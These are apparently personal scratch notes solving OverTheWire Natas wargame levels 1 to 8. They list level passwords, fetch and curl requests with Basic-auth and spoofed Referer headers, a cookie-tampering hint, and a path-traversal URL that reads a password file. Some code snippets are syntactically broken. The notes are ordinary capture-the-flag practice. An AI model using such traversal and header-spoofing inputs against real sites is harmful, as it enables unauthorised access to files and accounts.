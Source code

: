 natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6
natas2 is h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
<script>var wechallinfo = { "level": "natas2", "pass": "h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7" };</script></head>
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm


const headers = new Headers();
headers.append("Authorization", "Basic bmF0YXMzOkc2Y3RiTUo1TmI0Y2JGd2hwTVBTdnhHSGhRN0k2VzhR");
const myInit = {
  method: "GET",
  headers: headers,
  // mode: "cors",
  // cache: "default",
};
const myRequest = new Request("http://natas4.natas.labs.overthewire.org/", myInit);
const result = fetch(myRequest);

const myContentType = myRequest.headers.get("Content-Type"); // returns 'image/jpeg'

fetch("http://natas4.natas.labs.overthewire.org/", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "en-US,en;q=0.9",
    "authorization": "Basic bmF0YXMzOkc2Y3RiTUo1TmI0Y2JGd2hwTVBTdnhHSGhRN0k2VzhR",
    "cache-control": "no-cache",
    "pragma": "no-cache",
    "upgrade-insecure-requests": "1",
    ""
  },
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": null,
  "method": "GET",
  "mode": "no-cors",
  "credentials": "include"
}).then(result => console.log(result));



fetch("http://natas4.natas.labs.overthewire.org/", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "en-US,en;q=0.9",
    "authorization": "Basic bmF0YXM0OnRLT2NKSWJ6TTRsVHM4aGJDbXpuNVpyNDQzNGZHWlFt",
    "cache-control": "no-cache",
    "pragma": "no-cache",
    "upgrade-insecure-requests": "1",
    "referer": "http://natas5.natas.labs.overthewire.org/"
  },
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": null,
  "method": "GET",
  "mode": "cors",
  "credentials": "include"
}).then(result => console.log(result.text()));

curl 'http://natas4.natas.labs.overthewire.org/' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Authorization: Basic bmF0YXM0OnRLT2NKSWJ6TTRsVHM4aGJDbXpuNVpyNDQzNGZHWlFt' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36' \
  -H 'Referer: http://natas5.natas.labs.overthewire.org/'
  --compressed \
  --insecure

natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

change cookie for "is logged in"
natas6 is fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

find secret in source code. Browse to linked file
natas7 is jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

local file inclusion
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

http://natas8.natas.labs.overthewire.org/
http://natas8.natas.labs.overthewire.org/index-source.html
https://replit.com/@BenHunter2/GraveConsciousRule#main.php
